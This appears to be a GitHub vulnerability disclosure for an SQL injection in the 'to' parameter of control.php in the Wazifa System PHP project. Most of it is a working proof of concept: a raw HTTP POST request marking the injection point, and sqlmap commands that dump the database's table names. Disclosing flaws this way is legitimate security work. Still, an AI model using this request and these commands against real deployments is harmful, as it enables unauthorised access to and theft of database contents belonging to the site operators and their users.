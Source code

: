 # Wazifa System IN PHP control.php has SQL injection vulnerability

## supplier

https://code-projects.org/wazifa-system-in-php-css-js-and-mysql-free-download/

## Vulnerability file

/controllers/control.php

## describe

There is an unrestricted SQL injection attack in the collegeproject-wazifa system. The controllable parameter is: to. Pass to the function that has an unlimited SQL injection vulnerability to execute. A malicious attacker can exploit this vulnerability to obtain sensitive database information

## code analysis

The to parameter in the control.php can be controlled and executed in an unrestricted SQL statement.

You can see that the to is obtained and passed to getuserinfobyusername,and the funtion has sql injection vulnerable.

![image-20241102030154786](https://github.com/user-attachments/assets/3e5c1366-e5b6-4229-9b78-98a860cf671f)

![image-20241102030216689](https://github.com/user-attachments/assets/dd38f6e9-3430-4fbc-bb5a-b43cad596b75)



## POC

```
POST /controllers/control.php/ HTTP/1.1
Host: collegeproject-wazifa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 32
Origin: http://collegeproject-wazifa
Connection: close
Referer: http://collegeproject-wazifa/controllers/control.php/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

send=1&to=1*&subject=1&messege=1
```

save as 1.txt and excute this command

```
python sqlmap.py -r 1.txt --tables -D wazifa
```

Get tables from wazifa databases

![image-20241102025916610](https://github.com/user-attachments/assets/17e35e06-c6ce-41dd-bb2f-a6e25adc00b4)

```
python sqlmap.py -r 1.txt --tables
```

